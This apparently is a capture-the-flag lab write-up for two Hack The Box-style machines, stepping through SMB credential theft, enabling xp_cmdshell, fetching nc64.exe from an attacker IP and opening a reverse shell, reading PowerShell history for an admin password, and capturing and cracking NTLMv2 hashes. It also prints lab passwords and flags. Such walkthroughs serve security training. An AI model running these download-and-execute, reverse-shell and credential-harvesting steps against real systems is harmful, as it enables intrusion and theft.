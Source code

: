 ## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile    C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP

    xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
    ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```

   In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3

   ![scan port](./image/Task5_get_user.jpg)


9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
    
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe .\winPEASx64.exe
    
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

      We got the password,
   
      ```bash
      
      $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
      
      ```
   
11.  Login as Administrator

        We use impacket pasexec.py:

        ```bash
     
        python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
        
        ```

     or use the Evil-WinRm:

       ```bash
       
       evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
       
       ```

       After this, we can read the root flag:

       ```bash
    
       cd C:\Users\Administrator\Desktop
       type root.txt
        
       ```
    
       get the root flag: b91ccec3305e98240082d4474b848528.

      ![scan port](./image/Task5_get_root.jpg)

## Task 2

### 🛠️The process of solving task2

### What is Burp?

This is a intercepting proxy tool that allow security testers to capture, inspect, modify and forward HTTP(S) request and responses between browser and the serber.

We download the Burp Suite and open the app by the command:

 ```bash

java -jar burpsuite_community_v2024.1.1.jar

 ```

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can get into the page successfully.

   ![scan port](./image/Task5_login.jpg)
   
   When i click the log in as guest , the url changed into http://10.129.95.191/cdn-cgi/login/admin.php.

   The page exist but only can access as the guest.

    ![scan port](./image/Task5_click.jpg)

3. We use 'curl - I' to check admin page:

   ```bash

   curl -I http://10.129.95.191/cdn-cgi/login/admin.php

   ```

   get the result:

   ```bash

   HTTP/1.1 200 OK
   Date: Thu, 03 Jul 2025 12:16:00 GMT
   Server: Apache/2.4.29 (Ubuntu)
   Content-Type: text/html; charset=UTF-8

   ```

   This means that the page exist and work normal.
   
5. When we click the log in as guest, Burp Suite to intercept this request.

   Inside the HTTP history tab, i discovered the request :

    ```bash

    /cdn-cgi/login/admin.php

    ```

6. We can find the user flag from admin.php page:

   ![scan port](./image/Task5_getuser.jpg)

7. Now we need to get Root Flag:

   Look for the potential vulerablities, we use Burp Suite Responder to intercept the login request.

   ```bash

   http://10.129.95.191/index.php?page=//10.10.14.6/somefile

    ```

   
8.  Use John the Ripper to solve NTLMv2 Hash:

    We copy and paste the hash from the responder into hash.txt and use rockyou to solve the hash.

   ```bash
   john --format=netntlmv2 --wordlist=~/rockyou.txt hash.txt

   ```

9. Login using Evil-WinRm and get the root flag:

   ![scan port](./image/Task5_getRoot.jpg)


## Task 3

### Process of solving task 3

    
   
   
   


     
    
